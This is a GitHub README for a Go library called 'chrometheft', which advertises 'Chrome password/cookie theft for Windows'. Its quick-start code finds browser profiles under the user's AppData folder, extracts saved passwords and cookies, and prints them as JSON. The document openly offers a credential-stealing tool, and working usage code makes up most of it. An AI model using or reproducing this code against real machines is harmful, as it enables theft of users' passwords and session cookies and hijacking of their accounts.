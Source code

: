 # chrometheft
Flexible Chrome password/cookie theft for Windows    
[![Go Reference](https://pkg.go.dev/badge/github.com/liulihaocai/chrometheft.svg)](https://pkg.go.dev/github.com/liulihaocai/chrometheft)

# Usage
## Quick start
~~~go
package main

import (
	"encoding/json"
	"fmt"
	"os"

	"github.com/liulihaocai/chrometheft"
)

func main() {
	browsers, err := chrometheft.DetectBrowsers(os.Getenv("USERPROFILE") + "\\AppData\\Local")
	if err != nil {
		panic(err)
	}
	for _, browser := range browsers {
		fmt.Println("Browser:", browser)

		fmt.Println("Passwords:")
		passwords, err := chrometheft.GetPasswords(browser)
		if err != nil {
			fmt.Println("Error:", err)
		}
		pwd, _ := json.Marshal(passwords)
		fmt.Println(string(pwd))

		fmt.Println("Cookies:")
		cookies, err := chrometheft.GetCookies(browser)
		if err != nil {
			fmt.Println("Error:", err)
		}
		cok, _ := json.Marshal(cookies)
		fmt.Println(string(cok))
	}
}
~~~
